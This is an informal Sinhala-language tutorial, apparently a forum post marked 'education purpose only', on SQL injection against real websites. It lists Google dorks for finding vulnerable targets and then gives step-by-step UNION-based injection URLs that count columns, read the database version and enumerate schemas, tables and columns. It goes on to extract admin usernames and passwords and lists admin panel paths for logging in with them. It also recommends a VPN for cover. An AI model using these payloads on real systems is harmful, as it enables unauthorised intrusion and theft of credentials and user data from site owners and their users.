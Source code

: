 ## SQLI INJECTION (EDUCATION PURPOSE ONLY)
 

මොකක්ද මේ SQL Injections කියන්නෙ...? 📷 
මේ SQL Injections කියන්නෙ අපේ වෙබ්සයිට් හැදිලා තියන ක්‍රමයක්. මේකෙදි වැරැද්දක් උනොත් අපේ සයිට් එකටම බලපානවා. ඒවගේ තැන් වලට කියන්නෙ Vulnerable SQL Injections කියලා. අන්න ඒවායෙ තියන දෝශ නිසා අපිට පුළුවන් වෙනවා ඒ සයිට් එක ඇතුලට ගිහින් ආතල් ගන්න.

උබලට තේරුනේ නෑ කියලා දන්නවා. මේක නිකන් ගමේ කෑල්ලක් එක්ක සෙට් වෙලා ඉද්දි ඒකිව කොල්ලගෙ ගෙදර නවත්තලා කෙල්ලගෙ දෙමව්පියොයි, කොල්ලගෙ දෙමව්පියොයි මල ගෙදරක යනවා වගේ වැඩක්. ‍මේකෙදි කෙල්ල තමයි Vulnerable Site එක. කොල්ලා තමයි මේ සයිට් එකට ගේම දෙන බුවා. එතකොට කෙල්ලගෙ දෙමව්පියො තමයි සයිට් එකේ Vulnerable.... ආ දැන් තේරුනා නේද...

මේ ක්‍රමේදි අපිට පුළුවන් ඇඩ්මින්ගෙ මේල් එකයි, පාස්වර්ඩ් එකයි හොයාගන්න පුළුවන්. ඒ කියන්නෙ කෙලින්ම Admin Panel එකටම රිංගනවා. ඒ කියන්නෙ මේක ෆෝරම් එකක් නම් අනිත් අයගෙ විස්තර ටික නිකම්ම ලැබෙනවා. එහෙනම් දැන් වැඩේට බහිමු... දැන් කියන්න කියෙන්නෙ VPN එකක්, Proxy එකක් දාගත්තට කමක් නෑ හොදේ...

කොහොමද Vulnerable සයිට් එකක් හොයාගන්නෙ? 📷 
මුලින්ම ගූගල් දෙයියා ලගට යන්න. ඊළගට ඉතින් කැමති Dork එකක් සර්ච් කරන්න. මේ ඩෝර්ක් නම් ඇති වෙනකම් තියනවා. ඒත් මම මෙතන දාන්නෙ ටිකයි. අනිත් ටික ඕනෙනම් පහලින් බාගන්න....

inurl:news.php?id=
inurl:event.php?id=
inurl:order.php?id=
inurl:user.php?id=
inurl:restaurant.php?id=
inurl:buy.php?id=

මම අනිත් ඩෝර්ක් ටික පහලින් දාලා තියනවා. ඕනෙනම් ඒ ටික බාගන්න....මේකට කියන්නෙ SQL Injections.. දැන් කියන්න එපා මේකද කියන්නෙ, අපෝ ඕකත් වැඩක්ද කියලා. දන්නවා නම් කටවහගෙන හිටපල්ලා. මේ කියන්නෙ දන්නෙ නැති අයට විතරයි ඈ... SQL Injections කිව්වම අද ඉපදෙන එකා පවා දන්නවා. උබලා දන්නෙ නැත්තම් ඒක උබලගෙ වරදක් නෙවෙයි. මේවා කියලා දෙන්න තහනම් අපේ රටේ පාලකයන්ගෙ අවුලක් ඈ.... මේක ෆුල් ටියුට් එකක්. ඒ නිසා මේක කොහේවත් දාලා නම් අහුවෙන්න එපා. එහෙනම් පටාන් ගමු නේද...!

දැන් අපිට ලැබෙන රිසාල්ට් වලින් කැමති එකකට යන්න. යන්න කලින් බලහල්ලා ඔය = ලකුණට පස්සෙ තියන ඉලක්කම පොඩ්ඩක් ඈ... 20ට වැඩියි වගේනම් යන්න එපා දෙයියො. මම එහෙම කියපු හේතුව ඉස්සරහට තේරෙයි.
SecDevil.com

දැන් අපිට සයිට් එකක් තියනවා. මම මේ සයිට් එක ගන්නම්. මම ඩිෆේස් ක‍රලා නෑ... උදාහරනයකට විතරයි.
http://www.hopefullyvulnerablesite.com/event.php?id=1
දැන් මේකෙ පේන්න තියනවා ඔයාලට ලින්ක් එක අගට id?=1 කියලා එකක් තියනවා. අන්න ඒක අගට ' දාලා බලන්න ඔනෙ මොකක් හරි එරර් එකක් එනවද කියලා. මේ විදිහට බලන්න.
http://www.hopefullyvulnerablesite.com/event.php?id=1'
මෙහෙම කරලා බලලා MySQL එරර් එකක් ආවෙ නැත්තම් ඉතින් අපිට බලන්න වෙනවා 2නි එකේ එරර් එකක් තියනවද කියලා. ඒකෙත් තිබුනෙ නැත්තම් දිගට බලන්න වෙනවා. ඒ නිසයි කිව්වෙ 20ට වැඩි ඒවා එපා කියලා.
දැන් අපිට එරර් එකක් ආවා කියලා සලකලා වැඩේ කරමු. ඊළගට අපිට ඕනෙ කරනවා මේ සයිට් එකේ තියන කොලම් ගාන හොයාගන්න. ඒක කරන්නෙ අපි අර ලින්ක් එකම අරගෙන ඒක අගට order by 2-- කියලා දාලා බලන්න. ඒකෙ එරර් එකක් නැත්තම් 3 දාලා බලන්න....
http://www.hopefullyvulnerablesite.com/event.php?id=1 order by 3--
*NO ERROR*
http://www.hopefullyvulnerablesite.com/event.php?id=1 order by 4--
*NO ERROR*
http://www.hopefullyvulnerablesite.com/event.php?id=1 order by 5--

*ERROR*
ඔන්න 5 වෙනි කොලම් එකේ එරර් එකක් තියනවා. ඒ කියන්නෙ මේකෙ තියෙන්නෙ කොලම් 4යි. 5 වෙනි එක නැති නිසා තමයි එරර් එකක් එන්නෙ.
Vulnerable Column එක හොයාගමු 📷
දැන් අපි දන්නවා මේ සයිට් එකේ තියන කොලම් ගාන. දැන් බලන්න හදන්නෙ Vulnerable Column එක මොකක්ද කියලා. දැන් අපි මේකෙ තියන කොලම් සිලෙක්ට් කරගන්නෙ කොහොමද කියලා බලමු.
URL එක අගට union select 1,2,3,4-- කියලා තමයි මට දාගන්න වෙන්නෙ. ඒක කරන්න කලින් කියන්න ඕනෙ අර ?id=1 කියලා තිබුන එක ?id=-1 කියලා දාන්න ඕනෙ. දැන් අර අපි හොයාගත්ත කොලම් එක මුල ඉදන් 1,2,3,4 කියලා දාලා බලනවා.
http://www.hopefullyvulnerablesite.com/event.php?id=-1 union select 1,2,3,4--
විශේෂයි - අර = ලකුණට පස්සෙ "-" දාන්න මතක තියාගනිල්ලා ඈ...
අපි මේක කරද්දි අපිට ඩිස්ප්ලේ වෙනවා කොලම් එකක්. අන්න ඒක තමයි වීක් කොලම් එක. ඒක මතක තියාගන්න.
Database එකේ වර්ෂන් එක බලමු. 📷
දැන් අපි ඩේටාබේස් එකේ වර්ෂන් එක හොයාගන්න ඕනෙ. ඒක හොයාගන්නෙ අපි එකඑක වර්ෂන් එකට යූස් කරන්නෙ එක එක කමාන්ඩ්. ඩේටාබේස් එක වර්ෂන් 5 නම් කිසිම අවුලක් නෑ. ඊට උඩ නම් කොහෙත්ම අවුලක් නෑ. ඒත් පහල එකක් නම් පොඩ්ඩක් අවුල්. මේ කමාන්ඩ් වැඩ කරන්නෙ 5 හෝ 5ට වැඩි නම් විතරයි. එහෙම කිව්වා කියලා අවුලක් ගන්න එපා. මම අවසානයට දෙනවා සයිට් 2, 3ක්....
ඒකට කලින් ලින්ක් එකම අරගෙන අර අපිට ඩිස්ප්ලේ කරපු කොලම් එක තියන තැනට @@Version කියලා දාගන්න.
http://www.hopefullyvulnerablesite.com/event.php?id=-1 union select 1,@@version,3,4--
මට මේකෙ පෙන්නුවේ 2නි කොලම් එක නම් ඒක තමයි මෙතනට දාලා තියෙන්නෙ. පේනවනෙ 2 වෙනුවට @@Version දාලා තියනවා.
දැන් අපිට පෙන්වනවා මේකෙ වර්ෂන් එක... මේ වගේ එකක් පෙන්වයි.
5.1.47-community-log
මේක වර්ෂන් 5. ඒ නිසා කිසිම අවුලක් නෑ. අපේ වැඩේ කරන්න පුළුවන්.
ඩේටාබේස් එකේ නම හොයමු.
මේක ගොඩක් වැදගත් දෙයක්. මේක නැතුව ඇත්තටම වැඩේ කරන්න බෑ. මේ දෙන කෝඩ් එක ලින්ක් එකේ අගට දාගෙන බලන්න. මේක වෙනස් කරගන්න විදිහ කියලා දෙන්න ඒනෙ නෑනෙ.
http://hopefullyvulnerablesite/event.php?id=-1 union select 1,group_concat(schema_name),3,4 from information_schema.schemata--
group_concat(schema_name) - කලින් @@version තිබුන තැනට මේක දාන්න.
from information_schema.schemata-- - මේ ටික වෙනස් නොකර දාන්න...
දැන් මේ ටිකත් ඒ විදිහටම කරන්න.
Quote:http://www.hopefullyvulnerablesite.com/event.php?id=-1 union select 1,concat(database()),3,4--
concat(database()) - වීක් කොලම් එක තිබුන තැනට මේක දාගන්න.
දැන් හරි මේ ටික කරගත්තා කියන්නෙ වැඩේ ඉවරයි වගේ තමයි. මේකෙදි අපිට පෙන්වයි ඩේටාබේස් එකේ නම...
ඩේටාබේස් එකේ Table විවෘත කරමු.
දැන් අපි ඩේටාබේස් එකේ ටේබල් ටික බලන්න තමයි හදන්නෙ. මේක තමයි ටිකක් දිග කෝඩ් එක.
http://www.hopefullyvulnerablesite.com/event.php?id=-1 union select 1,group_concat(table_name),3,4 FROM information_schema.tables WHERE table_schema=database()--
group_concat(table_name) - වීක් කොලම් එක තිබුන තැනට දාන්න.
FROM information_schema.tables WHERE table_schema=database()-- - වෙනස් නොකර තියන්න.
දැන් අපිට ඩේටාබේස් එකේ කොලම් පෙන්වනවා.
Table වල තොරතුරු බලමු. 📷
මේකෙදි අපි කරන්නෙ ටේබල් වල තොරතුරු මොනවද කියලා බලන එකයි. හැබැයි බලන්නෙ ඇඩ්මින්ගෙ විස්තර විතරයි ඈ. ඒක තිබුනම ඇතිනෙ.
Quote:http://www.hopefullyvulnerablesite.com/event.php?id=-1 union select 1,group_concat(column_name),3,4 FROM information_schema.columns WHERE table_name="admin_credentials"
වෙනස් කරන ඒවා කියන්න යන්නෙ නෑ. දැන් දන්නවනෙ.
මේක කරද්දි එරර් එකක් ආවොත් අපිට මේ admin_credentials එක Hex කරන්න වෙනවා.
ඒක කලාම එන්නෙ මෙන්න මේ වගේ එකක්.
http://www.hopefullyvulnerablesite.com/event.php?id=-1 union select 1,group_concat(column_name),3,4 FROM information_schema.columns WHERE table_name=0x61646d696e5f63726564656e7469616c73
දැන් අපිට පෙන්වනවා ගින්දර වගේ Username එකයි Password එකයි. ඕක ගහලා ලොග් වෙන්න තියෙන්නෙ. ඇඩ්මින් පැනල් එක හොයාගන්න බැරිනම් Havij හරි අර මම කලින් දුන්න පෝස්ට් එකේ තිබුන ලොග්ස් හරි යූස් කරන්න. මේ ටික තමයි නිතරම එන්නෙ....
/admin
/admin.php
/login.php
/admin/index.php
/login/index.php
/adminlogin
/adminlogin.php
/adminlogin/index.php
/moderator.php
/moderator
/modlogin

ඒ වගේම Vuln සයිට් එකක් හොයාගන්න SQLi Scanner එකක් යූස් කරන්නත් පුළුවන්....
